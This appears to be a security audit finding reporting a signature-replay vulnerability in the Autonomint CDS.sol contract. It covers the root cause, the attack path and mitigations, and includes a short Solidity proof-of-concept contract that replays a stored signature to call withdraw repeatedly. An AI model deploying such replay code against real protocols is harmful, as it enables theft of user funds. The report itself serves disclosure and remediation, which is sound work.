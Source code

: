 Mythical Burgundy Puppy

High

# [High] Lack of Nonce-Tracking in Signature Verification Allows Replay Attacks

### Summary

The lack of nonce tracking in the _verify function will cause potential replay attacks for the protocol as an attacker can reuse valid signatures multiple times.

### Root Cause

In [CDS.sol:878-917](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L878-L917), the _verify function does not store, track, or invalidate used nonces after successful verification. Although the signed message includes a nonce, the contract never updates an internal state variable to record that this nonce has been consumed, allowing the same signature to be replayed multiple times.

### Internal pre-conditions

1. A valid signature from hashedAdminTwo must be obtained for a specific action (e.g., CDS_WITHDRAW).
2. The nonce included in the signed message is not recorded or invalidated within the contract.

### External pre-conditions

None. The attacker only needs a previously valid signature. Once they have it, no external conditions are needed to replay it.

### Attack Path

1. An attacker obtains a valid signature from the authorized signer (hashedAdminTwo) for a privileged action (e.g., withdraw in CDS_WITHDRAW mode).
2. The attacker calls the function requiring the signature (withdraw) using the previously obtained valid signature and nonce.
3. Due to the lack of nonce tracking, the contract considers the signature valid again and executes the action repeatedly.
4. The attacker can replay this action multiple times, resulting in repeated unauthorized withdrawals or any action protected by the signature mechanism.

### Impact

The protocol suffers from unlimited replay of previously authorized actions, potentially allowing attackers to drain funds or repeatedly perform privileged operations. This can lead to severe financial losses and erode user and investor trust in the protocol.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

// Interface to interact with the vulnerable CDS contract
interface ICDS {
    // A hypothetical function that requires a valid signature for a privileged action
    function withdraw(
        uint64 index,
        uint256 excessProfitCumulativeValue,
        uint256 nonce,
        bytes memory signature
    ) external payable;
}

contract ReplayAttack {
    ICDS public cds;
    
    // Store a previously valid signature obtained by attacker
    bytes public storedSignature;
    uint256 public storedNonce;
    uint256 public storedExcessProfit;
    uint64 public storedIndex;

    constructor(
        address _cdsAddress,
        uint64 _index,
        uint256 _excessProfitCumulativeValue,
        uint256 _nonce,
        bytes memory _signature
    ) {
        cds = ICDS(_cdsAddress);
        storedIndex = _index;
        storedExcessProfit = _excessProfitCumulativeValue;
        storedNonce = _nonce;
        storedSignature = _signature;
    }

    // Exploit function to replay the same signature multiple times
    function exploit() external payable {
        // Call `withdraw` repeatedly with the same signature and nonce
        cds.withdraw(storedIndex, storedExcessProfit, storedNonce, storedSignature);
        cds.withdraw(storedIndex, storedExcessProfit, storedNonce, storedSignature);
        // ... Can keep calling this indefinitely
    }
}
```

### Mitigation

Implement Nonce Tracking:

Introduce a state variable (e.g., mapping(uint256 => bool) usedNonces;) to track used nonces. After a valid signature is processed, mark the nonce as used to prevent replay.

Add Replay Protection in Documentation and Testing:

Document the nonce usage in code comments and create tests ensuring that reused signatures fail.

Consider Time-Limited Signatures or Other Measures:

If appropriate, consider additional security measures like expiration timestamps on signatures.